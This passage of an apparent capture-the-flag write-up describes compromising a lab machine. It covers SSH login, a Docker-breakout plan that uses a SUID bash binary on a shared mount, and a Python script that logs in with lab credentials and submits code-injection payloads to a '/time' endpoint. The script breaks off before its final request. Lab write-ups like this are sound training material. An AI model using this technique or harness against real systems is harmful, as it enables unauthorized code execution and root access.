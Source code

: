 The first user gave us access to the machine using SSH: `ssh claire-r@10.10.247.66`. We get the user.txt flag!

## Privilege Escalation

In the claire-r user home directory, we have the source code of the application and the volume of the application is mounted under the `logs` directory.
Looking at the ownership we notice that we are the owners so if we can get a shell as root in the docker container running the application we can mount the bash binary with SUID and get root in the main machine. For more information check hacktricks in [this](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#privilege-escalation-with-2-shells-and-host-mount) subject.

Lets try to find a way to get a shell in the docker container.
Analyzing the source code with snyk it identifies a **Code Injection** vulnerability at line 83.

Lets find out how can we exploit it!
By catching the request with burpsuite and sending it to repeater we can try different payloads. useful payloads can be found [here](https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet).

After tryng a couple of code execution payloads using burpsuite the session was always going down and we had to login again.
To help with this, we have developed a script "exploit.py" that initiates a session and asks for the exploit.

```python
import requests

url = "http://umbrella.thm:8080"

# Get request for connect.sid cookie
endpoint = "/"
session = requests.Session()
response = session.get(url+endpoint)
print(session.cookies.get_dict())


# Post request for login
endpoint = "/auth"
payload = {
    'username': 'claire-r',
    'password': 'Password1'
}
response = session.post(url+endpoint, data=payload) 
print(session.cookies.get_dict())

# Ask for exploit
exploit = input('Exploit?\n') 
print(exploit)

# Post exploit
endpoint = "/time"
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Referer": "http://umbrella.thm:8080/",
    "Content-Type": "application/x-www-form-urlencoded"
}

payload = {
    'time': exploit
}
```